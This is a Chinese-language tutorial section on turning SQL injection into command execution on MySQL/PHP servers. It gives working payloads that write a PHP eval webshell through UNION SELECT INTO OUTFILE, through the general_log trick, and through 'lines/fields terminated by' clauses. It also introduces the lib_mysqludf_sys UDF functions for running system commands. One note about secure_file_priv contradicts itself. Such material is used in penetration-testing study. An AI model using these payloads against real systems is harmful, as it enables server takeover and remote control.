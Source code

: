 ## [](#12-sql-%E6%B3%A8%E5%85%A5%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C)12 SQL 注入命令执行

### [](#121-sql-%E6%B3%A8%E5%85%A5%E5%86%99%E6%96%87%E4%BB%B6)12.1 SQL 注入写文件

通过 SQL 注入，直接写入 webshell 文件到服务器，通过 GET 方法或者 POST 方法提交并执行外部指令，为后续进一步远程控制，提权，创造条件。

注意

需要 mysql 用户在写入文件夹下有写入权限，即 `secure_file_priv` 为不为空。

技巧

当`secure_file_priv` 不为空时，可以使用 general\_log 写文件：

`set global general_log=on;`

`set global general_log_file='C:/phpStudy/WWW/789.php';`

`select '<?php eval($_POST['a']) ?>';`

#### [](#1211-union-select-%E5%90%8E%E5%86%99%E5%85%A5)12.1.1 union select 后写入

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>select username, password from users where id="1" union select null,'<?php @eval($_REQUEST[1]);?>' into outfile '/var/www/html/cmd.php'<br>``` |

**注意**：在 windows 下的分隔符为 /（斜杠）。

#### [](#1212-%E8%A1%8C%E5%88%86%E9%9A%94%E7%AC%A6%E5%86%99%E5%85%A5)12.1.2 行分隔符写入

通过 select 语句查询的内容写入文件，也就是 into outfile ‘C:/wamp64/www/work/webshell.php’ 这样写的原因，然后利用 lines terminated by 语句拼接 webshell 的内容。

lines terminated by 可以理解为「以每行终止的位置添加 xx 内容」。

利用 lines starting by 语句拼接webshell的内容。lines starting by 可以理解为「以每行开始的位置添加 xx 内容」。

利用 fields terminated by 语句拼接webshell的内容。fields terminated by 可以理解为「以每个字段的位置添加 xx 内容」。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>``` | ```sql<br>// lines terminated by 写入<br>?id=1 limit 1 into outfile 'C:/wamp64/www/work/webshell.php' lines terminated by '<?php phpinfo() ?>';<br><br>// lines starting by 写入<br>?id=1 limit 1 into outfile 'C:/wamp64/www/work/webshell.php' lines starting by '<?php phpinfo() ?>';<br><br>// fields terminated by 写入<br>?id=1 into outfile 'C:/wamp64/www/work/webshell.php' fields terminated by '<?php phpinfo() ?>';<br><br>// COLUMNS terminated by 写入<br>?id=1 limit 1 into outfile 'C:/wamp64/www/work/webshell.php' COLUMNS terminated by '<?php phpinfo() ?>';<br>``` |

### [](#122-%E7%94%A8%E6%88%B7%E8%87%AA%E5%AE%9A%E4%B9%89%E5%87%BD%E6%95%B0---udf)12.2 用户自定义函数 - UDF

还可以利用「用户自定义函数」的方式，即 User Defined Functions(UDF) 来执行命令。通过 lib\_mysqludf\_sys 提供的函数可以执行**系统命令**关键语句:

-   **sys\_eval()**，执行任意命令，并将输出返回
    
-   sys\_exec()，执行任意命令，并将返回码返回
    
-   sys\_get()，获取一个环节变量
    